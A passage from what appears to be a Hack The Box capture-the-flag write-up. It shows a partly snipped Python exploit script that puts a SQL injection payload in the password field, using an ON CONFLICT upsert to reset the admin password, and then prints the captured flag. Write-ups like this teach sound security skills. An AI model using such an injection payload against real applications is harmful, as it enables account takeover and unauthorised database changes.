 I now just need to spin up the instance on HTB, and change my exploit.py to target the app:

```python

import requests

url = 'http://139.59.167.73:32428'

username = 'admin'
password = "PWN') ON CONFLICT(username) DO UPDATE SET password = 'admin123';"

...snip...
```


Then run my exploit to get the flag:

```bash
└─$ python exploit.py
{"error":"Could not find Pwntown or PWN"}
HTB{w3lc0m3_t0_th3_p1p3_dr34m}

```
